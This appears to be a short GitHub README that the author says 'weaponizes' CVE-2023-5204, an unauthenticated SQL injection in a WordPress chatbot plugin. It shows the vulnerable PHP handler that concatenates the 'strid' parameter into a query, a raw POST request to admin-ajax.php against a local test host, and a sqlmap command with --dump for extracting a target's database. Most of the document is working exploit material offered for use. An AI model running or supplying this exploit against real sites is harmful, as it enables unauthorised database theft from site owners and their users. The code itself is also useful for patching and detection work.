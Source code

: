 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-5204

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.


> Vulnerable Code
```php
add_action( 'wp_ajax_wpbo_search_response',        'qc_wpbo_search_response' );
add_action( 'wp_ajax_nopriv_wpbo_search_response', 'qc_wpbo_search_response' );



function qc_wpbo_search_response(){
	global $wpdb;
	$keyword = (sanitize_text_field($_POST['keyword']));
	$strid = (sanitize_text_field($_POST['strid']));
	$table = $wpdb->prefix.'wpbot_response';
	

	$response_result = array();

	$status = array('status'=>'fail', 'multiple'=>false);
	if(($strid != '') && empty($response_result)){
		$results = $wpdb->get_results("SELECT * FROM `$table` WHERE `ID` = ".$strid);	
```

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost:1337
Content-Length: 50
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost:1337
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

action=wpbo_search_response&keyword=search&strid=1
```

* SQLMAP

```
sqlmap -u 'target/wp-admin/admin-ajax.php' --data='action=wpbo_search_response&keyword=search&strid=1' -p 'strid' --dump
```